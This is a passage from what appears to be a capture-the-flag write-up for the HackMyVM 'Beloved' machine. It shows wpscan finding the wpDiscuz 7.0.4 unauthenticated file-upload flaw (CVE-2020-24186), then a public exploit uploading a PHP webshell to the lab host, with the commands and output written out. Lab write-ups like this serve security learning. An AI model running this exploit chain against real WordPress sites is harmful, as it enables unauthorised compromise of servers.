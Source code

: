 Did that fix it? Yes, hooray.

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/beloved]
└─# wpscan -e --url http://192.168.1.73  --api-token NAH_BRAH --plugins-detection aggressive
# etc
| [!] Title: Comments - wpDiscuz 7.0.0 - 7.0.4 - Unauthenticated Arbitrary File Upload
 |     Fixed in: 7.0.5
 |     References:
 |      - https://wpscan.com/vulnerability/92ae2765-dac8-49dc-a361-99c799573e61
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24186
 |      - https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/
 |      - https://plugins.trac.wordpress.org/changeset/2345429/wpdiscuz
# etc
{% endhighlight %}

Yeah, that'll [do](http://packetstormsecurity.com/files/163012/WordPress-wpDiscuz-7.0.4-Remote-Code-Execution.html).

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/beloved]
└─# ./exploit.py -u http://beloved -p /2021/06/09/hello-world/
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[51681] | code:[200]
[!] Got wmuSecurity value: 8a7a1fff04
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: lclrllrwcivibto

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://beloved/wp-content/uploads/2021/12/lclrllrwcivibto-1640165637.6884.php&quot; 

> whoami

[x] Failed to execute PHP code...
{% endhighlight %}

D'oh! Nevermind, the file is still there.

